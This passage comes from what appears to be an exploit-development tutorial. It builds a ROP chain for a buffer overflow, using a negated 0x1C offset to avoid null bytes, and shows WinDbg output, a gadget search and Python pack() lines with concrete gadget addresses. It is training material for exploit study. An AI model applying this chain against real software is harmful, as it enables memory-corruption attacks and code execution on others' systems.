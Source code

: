To overcome our pitfall, we can put the `0x1C` value on the stack as part of the overflowing buffer, then pop the value into another register of our choice using a gadget. This would allow us to subtract the two registers (`EBX`- `0x1C`) to get our desired result. We note another pitfall here as we can see from the below `0000001c` contains several null bytes.

```python
0:077> .formats 0x1C
Evaluate expression:
  Hex:     0000001c
```

To overcome this, we can use one of our tricks to add the inverse, which would be seen as a very large value `-0x1C` that contains no null bytes.

```python
0:077> .formats -0x1C
Evaluate expression:
  Hex:     ffffffe4
  Decimal: -28
```

Effectively instead of using `ebx - 0x1c` bytes, we can utilize `ebx + -0x1c`bytes which will result in the same result, however, we won’t have any null bytes. 

```python
0:077> ? ebx - 0x1c
Evaluate expression: 226812672 = 0d84e300
0:077> ? ebx + -0x1c
Evaluate expression: 226812672 = 0d84e300
```

Let’s plan which gadgets would have to be used next. Considering that `EBX` which currently stores our `ESP` value is not as commonly used, we will first move the `EBX` value into another register which we will hopefully find gadgets for during our calculations. 

*Note that, you’d have to sometimes retrace your steps to come back to earlier ROP gadgets to ensure a path forward.*

1. Copy `EBX` to `EAX` ; *note `EBX` stores our saved `ESP` value*. We need to perform some stack adjustments, hence the additional ROP gadgets that makes up for the additional instructions.
    
    ```python
    gci .\ROPS  -File -Recurse -EA SilentlyContinue | Select-String -Pattern "(mov eax, ebx).*?((retn  ;)|(ret  ;))"
    ....
    ROPS\ropssnfs.txt:11559:0x100117ba: mov eax, ebx ; pop esi ; pop ebx ; leave  ; ret  ;  (1 found)
    ROPS\ropssnfs.txt:11560:0x10023069: mov eax, ebx ; pop esi ; pop ebx ; leave  ; ret  ;  (1 found)
    ROPS\ropssnfs.txt:11561:0x10013b02: mov eax, ebx ; pop esi ; pop ebx ; pop ebp ; ret  ;  (1 found)
    ROPS\ropssnfs.txt:11562:0x10012394: mov eax, ebx ; pop esi ; pop ebx ; ret  ;  (1 found)
    ROPS\ropssnfs.txt:11563:0x1000fa5c: mov eax, ebx ; pop esi ; pop edi ; pop ebx ; pop ebp ; ret  ;  (1 found)
    .....
    rop = pack("<L", (0x10012394)) # mov eax, ebx ; pop esi ; pop ebx ; ret  ;  (1 found)
    rop += pack("<L", (0x42424242)) # pop esi
    rop += pack("<L", (0x42424242)) # pop ebx 
    ```
    